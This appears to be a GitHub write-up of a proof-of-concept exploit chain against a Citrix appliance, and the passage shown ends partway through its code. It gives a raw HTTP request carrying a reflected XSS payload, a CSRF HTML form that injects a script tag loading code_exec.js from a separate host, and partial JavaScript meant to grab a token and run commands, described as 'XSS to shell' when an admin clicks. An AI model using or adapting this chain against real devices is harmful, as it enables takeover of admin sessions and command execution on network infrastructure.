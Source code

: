```http
POST /menu/stapp HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 96
Content-Type: application/x-www-form-urlencoded
X-NITRO-USER: henk

sid=254&pe=1,2,3,4,5&appname=%0a</title><script>alert('xss')</script>&au=1&username=nsroot
```

It's really not that special, but went ahead and made an XSS to shell PoC just for funsies. Only works if you get an admin to click obviously.

<a href="https://www.youtube.com/watch?feature=player_embedded&v=1_D4_9BKHSc" target="_blank"><img src="https://img.youtube.com/vi/1_D4_9BKHSc/0.jpg" width="240" height="180" border="10" /></a>

And here is the code if you feel really bored:

`csrf.html`
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://citrix.local/menu/stapp" method="POST">
      <input type="hidden" name="sid" value="254" />
      <input type="hidden" name="pe" value="1,2,3,4,5" />
      <input type="hidden" name="appname" value="%0a</title><script src='http://localhost:9090/code_exec.js'></script>" />
      <input type="hidden" name="au" value="1" />
      <input type="hidden" name="username" value="nsroot" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

`code_exec.js`
```js
function load(url, callback) {
  var xhr = new XMLHttpRequest();

  xhr.onreadystatechange = function() {
    if (xhr.readyState === 4) {
      rand = callback(xhr.response);
      exec_command(rand);
    }
  }

  xhr.open('GET', url, true);
  xhr.send('');
}

function get_rand(payload) {
	var lines = payload.split("\n");
	for(var i = 0; i < lines.length; i++) {
	    if (lines[i].includes('var rand = "')) {
	    	var rand = lines[i].split('"')[1]
	    	return rand;
	    }
```